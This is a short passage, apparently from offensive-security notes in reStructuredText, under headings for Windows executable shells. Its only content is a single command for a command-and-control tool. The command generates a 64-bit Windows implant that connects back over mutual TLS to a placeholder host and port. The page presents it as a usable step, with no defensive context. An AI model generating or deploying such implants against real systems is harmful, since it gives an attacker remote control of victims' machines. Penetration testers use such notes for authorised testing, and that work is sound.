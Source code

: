 Shells
****************

Windows
#############

exe
++++++++

..code-block :: console

    generate -f exe -o windows -a amd64 --mtls X.X.X.X:<port> -s /tmp -n NAME